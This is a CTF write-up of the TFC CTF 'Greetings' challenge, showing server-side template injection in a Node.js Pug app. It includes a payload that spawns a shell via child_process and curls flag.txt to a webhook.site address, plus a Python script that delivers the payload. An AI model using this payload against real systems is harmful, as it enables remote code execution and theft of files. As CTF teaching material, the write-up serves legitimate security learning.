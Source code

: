 # TFC CTF WRITEUP
## GREETINGS
### Web Interface
We are provided with an input in the form of a username.

![Web Interface](https://github.com/byf1sh/CTF-WriteUps/blob/main/TFCCTF%20-%20Writeup/Assets/web%20page.png?raw=true)

When we enter a username and press submit, the web page redirects to the result page and calls our name.

![Result Page](https://github.com/byf1sh/CTF-WriteUps/blob/main/TFCCTF%20-%20Writeup/Assets/result%20page.png?raw=true)

After trying several attempts like XSS and SSTI, I discovered an SSTI vulnerability in Node.js PUG.

![SSTI Vulnerability](https://github.com/byf1sh/CTF-WriteUps/blob/main/TFCCTF%20-%20Writeup/Assets/pug%20result%20page.png?raw=true)

### Exploitation

After conducting research on the internet, I found a payload that might be useful for further exploitation.

[https://exploit-notes.hdks.org/exploit/web/template-engine/pug-pentesting/](https://exploit-notes.hdks.org/exploit/web/template-engine/pug-pentesting/)

```javascript
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl -X POST -d @flag.txt https://webhook.site/d5de6476-d13e-41db-b66d-e27e414a7573')}()}
```

The code above will send the contents of `flag.txt` via a POST request to our webhook, and we can read the `flag` from the webhook.

### Exploit with Python Script

```python
import requests

url = "http://challs.tfcctf.com:31077/result?username="  # Target URL
webhook = "https://webhook.site/f372f484-9800-4196-87ce-c9d1bcd37ed5"  # Change this with your webhook
payload = """%23{function(){localLoad%3Dglobal.process.mainModule.constructor._load%3Bsh%3DlocalLoad(%22child_process%22).exec(%27curl+-X+POST+-d+%40flag.txt+""" + webhook.replace(":", "%3A").replace("/", "%2F") + """%27)}()}"""

full_url = url + payload
response = requests.get(full_url)

print(response.text)
```

---

![Evidence](https://github.com/byf1sh/CTF-WriteUps/blob/main/TFCCTF%20-%20Writeup/Assets/evidence-greetings.png?raw=true)

---

Thank you <3.
